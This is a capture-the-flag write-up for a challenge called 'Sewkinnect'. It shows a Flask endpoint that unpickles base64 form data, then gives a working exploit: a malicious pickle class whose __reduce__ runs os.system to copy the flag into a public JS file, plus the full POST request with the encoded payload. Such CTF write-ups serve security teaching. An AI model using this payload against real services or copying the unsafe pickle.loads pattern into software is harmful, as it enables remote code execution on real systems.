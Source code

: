 # Sewkinnect
`Clone2Own`
In `app.py` there's a function called `calculate()`, the source code looks like this:
```python
@app.route("/calculate", methods=['POST'])
def calculate():
	body_parts = pickle.loads(base64.b64decode(request.form.get("body_parts")))
	point_cloud = pickle.loads(base64.b64decode(request.form.get("point_cloud")))
	calc = calculations.CalculationObject(point_cloud, body_parts)
	calc.calc_joint_angles()
	calc.calc_lengths()
	calc.calc_girths()
	calc.convert_measures_to_inches()
	timestamp = datetime.datetime.now().strftime("%x %X")
	kinect_data[timestamp] = calc.measures
	return "200 OK"
```

Pickling is interesting! We can make an evil pickling object like this:
```python
class Evil(object):
    def __reduce__(self):
        return (os.system, ('cat /flag* > /usr/src/app/static/js/lol.js',))

evil_pickle = pickle.dumps(Evil())
evil_pickle_base64 = base64.b64encode(evil_pickle).decode('utf-8')
```
Such that when we pickle, and reduce is called we'll be able to get remote code execution. We can send the following `POST` request:
```
POST /calculate HTTP/1.1
Host: site.local:5000
Content-Length: 115
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

body_parts=Y3Bvc2l4CnN5c3RlbQpwMAooUydjYXQgL2ZsYWcqID4gL3Vzci9zcmMvYXBwL3N0YXRpYy9qcy9sb2wuanMnCnAxCnRwMgpScDMKLg==
```
And there's flag!

Flag:
`TDCNET{hv0r_3r_m1n_XB0000000000000000000000000000000000000X}`